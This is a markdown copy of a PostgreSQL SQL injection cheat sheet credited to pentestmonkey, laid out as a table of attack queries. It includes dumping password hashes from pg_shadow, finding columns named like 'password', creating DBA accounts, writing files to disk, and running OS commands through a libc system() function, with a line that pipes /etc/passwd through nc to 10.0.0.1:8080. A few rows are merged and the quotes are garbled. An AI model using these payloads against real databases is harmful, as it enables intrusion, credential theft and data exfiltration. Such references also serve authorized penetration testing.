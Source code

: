 # All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT version()|
|Comments|SELECT 1; --comment; SELECT /\*comment\*/1; |
|Current User|SELECT user; SELECT current_user; SELECT session_user; SELECT usename FROM pg_user; SELECT getpgusername();|
|List Users|SELECT usename FROM pg_user|
|List Password Hashes|SELECT usename, passwd FROM pg_shadow — priv|
|Password Cracker|MDCrack can crack PostgreSQL’s MD5-based passwords.|
|List Privileges|SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user|
|List DBA Accounts|SELECT usename FROM pg_user WHERE usesuper IS TRUE|
|Current Database|SELECT current_database()|
|List Databases|SELECT datname FROM pg_database|
|List Columns|SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)|
|List Tables|SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)|
|Find Tables From Column Name|If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;|
|Select Nth Row|SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from; SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;|
|Select Nth Char|SELECT substr(‘abcd’, 3, 1); — returns c|
|Bitwise AND|SELECT 6 & 2; — returns 2; SELECT 6 & 1; –returns 0|
|ASCII Value -> Char|SELECT chr(65);|
|Char -> ASCII Value|SELECT ascii(‘A’);|
|Casting|SELECT CAST(1 as varchar); SELECT CAST(’1′ as int);|
|String Concatenation|SELECT ‘A’ || ‘B’; — returnsAB|
|If Statement|IF statements only seem valid inside functions, so aren’t much use for SQL injection.  See CASE statement instead.|
|Case Statement|SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A|
|Avoiding Quotes|SELECT CHR(65)||CHR(66); — returns AB|
|Time Delay|SELECT pg_sleep(10); — postgres 8.2+ only; CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.  Taken from here .|
|Make DNS Requests|Generally not possible in postgres.  However if contrib/dblinkis installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.|
|Command Execution|CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user|
|Hostname, IP Address|SELECT inet_server_addr(); — returns db server IP address (or null if using local connection); SELECT inet_server_port(); — returns db server IP address (or null if using local connection)|
|Create Users|CREATE USER test1 PASSWORD ‘pass1′; — priv; CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time|
|Drop Users|DROP USER test1; — priv|
|Make User DBA|ALTER USER test1 CREATEUSER CREATEDB; — priv; Location of DB files|SELECT current_setting(‘data_directory’); — priv; SELECT current_setting(‘hba_file’); — priv|
|Default/System Databases|template0; template1
|Dollar Strings| Instead of quotes you can alternatively use $$ (duoble-dollar) for quoting stings, of $ (single-dollar) with tag: SELECT $$TEST$$; SELECT $TAG$TEST$TAG$; |
|Write arbitary data to disc | CREATE TEMP TABLE TEST(data text);INSERT INTO TEST(data) VALUES ($$test$$);COPY TEST(data) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$ | 
